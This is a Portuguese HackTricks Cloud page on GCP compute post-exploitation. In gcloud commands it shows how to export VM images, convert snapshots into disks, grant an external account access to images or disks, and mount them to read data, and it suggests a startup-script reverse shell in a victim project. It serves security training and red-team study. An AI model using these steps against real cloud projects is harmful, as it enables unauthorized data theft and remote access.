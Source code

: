 # GCP - Computação Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Computação

Para mais informações sobre Computação e VPC (Rede) confira:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspecionar Imagens localmente

Isso permitiria que um atacante **acessasse os dados contidos dentro de imagens já existentes** ou **criasse novas imagens de VMs em execução** e acessasse seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e, com certeza, **privilégios sobre o cloudbuild**, pois é o **serviço** que será solicitado para realizar a exportação.\
Além disso, para que isso funcione, o SA do codebuild e o SA do compute precisam de permissões privilegiadas.\
O SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspecionar Snapshots e Discos localmente

Não é possível exportar diretamente snapshots e discos, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e, seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecionar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem,** é possível conceder a uma conta externa acesso à imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e então crie uma nova VM a partir disso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder conceder acesso à sua conta externa sobre a imagem, poderá iniciar uma VM usando essa imagem no projeto da vítima e **fazer os metadados executarem um reverse shell** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disk anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou um snapshot, você poderia transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você poderia **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar o disco dentro da VM:

1.  **SSH na VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatar e Montar o Disco** (se for um disco novo ou bruto):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se você **não puder dar acesso a um projeto externo** ao snapshot ou disco, pode ser necessário **realizar essas ações dentro de uma instância no mesmo projeto que o snapshot/disco**.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
